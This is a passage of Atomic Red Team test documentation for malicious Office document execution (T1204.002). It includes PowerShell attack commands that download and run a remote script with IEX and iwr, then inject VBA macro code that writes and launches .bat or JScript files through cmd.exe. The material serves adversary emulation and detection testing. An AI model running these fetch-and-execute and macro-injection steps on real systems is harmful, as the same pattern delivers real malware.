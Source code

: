 #### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft #{ms_product} must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #5 - Office launching .bat file from AppData

Microsoft Office creating then launching a .bat script from an AppData directory. The .bat file launches calc.exe when opened.

**Supported Platforms:** Windows

**auto_generated_guid:** 9215ea92-1ded-41b7-9cd6-79f9a78397aa

#### Inputs:

| Name       | Description                      | Type   | Default Value                  |
| ---------- | -------------------------------- | ------ | ------------------------------ |
| bat_path   | Path to malicious .bat file      | string | $("$env:temp&#92;art1204.bat") |
| ms_product | Maldoc application Word or Excel | string | Word                           |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{bat_path}`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c $bat_path `", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct #{ms_product}
```
